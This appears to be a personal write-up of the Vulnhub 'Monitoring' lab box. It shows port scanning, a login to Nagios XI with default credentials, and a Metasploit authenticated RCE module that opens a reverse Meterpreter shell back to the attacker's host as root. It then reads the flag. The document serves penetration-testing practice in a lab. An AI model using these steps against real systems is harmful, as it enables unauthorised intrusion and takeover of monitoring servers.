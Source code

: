 ```yaml
---
title: Vulnhub - Monitoring
description: My writeup on Monitoring box.
categories:
 - vulnhub
tags: vulnhub nagios metasploit
---
```


![](https://3.bp.blogspot.com/-WvEbEYfcXkM/WfzbFrCIClI/AAAAAAAALBA/PcLISE3UWJ4RjRYmINybOdk0rY2RZt04ACLcBGAs/s1600/Nagios-XI.jpg)

You can find the machine there > [Monitoring](https://www.vulnhub.com/entry/monitoring-1,555/){:target="_blank"}

## Summary

This was a pretty easy box, i had some troubles finding the right exploit for it. It's all about exploiting a vulnerable version of Nagios XI this will provide us a root shell. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.9
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 12:01 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.9)
Host is up (0.00010s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
MAC Address: 00:0C:29:DF:7A:FC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
$ nmap -p 22,25,80,389,443,5667 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 12:02 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.9)
Host is up (0.00052s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Nagios XI
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
5667/tcp open  tcpwrapped
```

Lot of stuff, http/https display the same website Nagios XI platform. Nagios is an open-source computer-software application that monitors systems, networks etc. I've 0 experience with nagios and nagios pentesting. If we press the "Access Nagios XI" button will re-direct us to login panel.

![](https://i.imgur.com/NBOoRgI.png)

Tried lot of stuff, `admin:admin` - `guest:guest` etc nothing. I googled "nagios default credentials" and i found that the default username is `nagiosadmin` so by guessing i found the password is `admin`. :sweat_smile:

So we're in using this creds `nagiosadmin:admin`:

![](https://i.imgur.com/wrAr3Fa.png)

I wasted too much time finding a way to execute php code or something, but no luck. Then i noticed the version of nagios in the down left corner :

![](https://i.imgur.com/k5yjqcD.png)

I googled "nagios xi 5.6 exploit" and i found a metasploit one! [exploit](https://www.exploit-db.com/exploits/48191){:target="_blank"} Let's fire it up!

```
$ service postgresql start; msfconsole
                         
...

msf5 > search type:exploit name:nagios

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce                2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

Let's add the right settings.

```
msf5 > use exploit/linux/http/nagios_xi_authenticated_rce

...

msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set PASSWORD admin
PASSWORD => admin
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST eth0
LHOST => 192.168.1.14
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.14:4444 
[*] Found Nagios XI application with version 5.6.0.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.14:4444 -> 192.168.1.9:51506) at 2020-09-18 12:24:27 +0300
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: no-user @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > shell
Process 13165 created.
Channel 1 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@ubuntu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Perfect! Let's read the flag now.

```
root@ubuntu:~# cat proof.txt
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```

Fun box, learnt some new things! :)
